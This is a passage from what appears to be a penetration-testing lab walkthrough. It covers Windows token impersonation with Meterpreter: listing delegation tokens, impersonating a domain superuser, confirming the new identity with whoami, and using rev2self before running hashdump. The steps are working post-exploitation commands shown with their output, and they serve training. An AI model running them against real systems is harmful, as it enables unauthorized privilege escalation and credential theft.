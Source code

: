     Delegation Tokens Available
    ========================================
    Font Driver Host\UMFD-0
    Font Driver Host\UMFD-1
    MARVEL\superuser
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\NETWORK SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1
    
    Impersonation Tokens Available
    ========================================
    No tokens available
    ```
    
6. **Impersonate a Token**:
    
    ```Shell
    impersonate_token [DOMAIN\\USERNAME]
    ```
    
    Example:
    
    ```Shell
    (Meterpreter 2)(C:\Windows\system32) > impersonate_token marvel\\superuser
    [+] Delegation token available
    [+] Successfully impersonated user MARVEL\superuser
    (Meterpreter 2)(C:\Windows\system32) >
    ```
    
7. **Verify Impersonation**:
    
    ```Shell
    shell
    whoami
    ```
    
    - Example
    
    ```Bash
    (Meterpreter 3)(C:\Windows\system32) > shell
    Process 9916 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.19045.5247]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    marvel\superuser
    
    C:\Windows\system32>
    ```
    
8. If you are trying to run hashdump, you cannot as the impersonated token (user)
    1. You will need to run: **rev2self**
        1. This will cause you to return to your previously logged in user through psexec
